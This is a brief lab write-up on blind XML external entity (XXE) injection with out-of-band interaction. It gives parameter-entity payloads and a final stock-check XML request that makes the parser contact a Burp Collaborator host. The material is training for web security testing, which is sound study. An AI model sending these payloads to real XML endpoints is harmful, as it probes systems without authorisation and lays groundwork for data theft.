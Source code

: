# Blind XXE with out-of-band interaction via XML parameter entities
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://2ruibhhghox7cp0i7q0y71p9e0ks8h.burpcollaborator.net"> %xxe; ]>

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "2ruibhhghox7cp0i7q0y71p9e0ks8h.burpcollaborator.net"> %xxe; ]>

Final XML request:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://2ruibhhghox7cp0i7q0y71p9e0ks8h.burpcollaborator.net"> %xxe; ]>
<stockCheck>
<productId>2</productId><storeId>2</storeId></stockCheck>
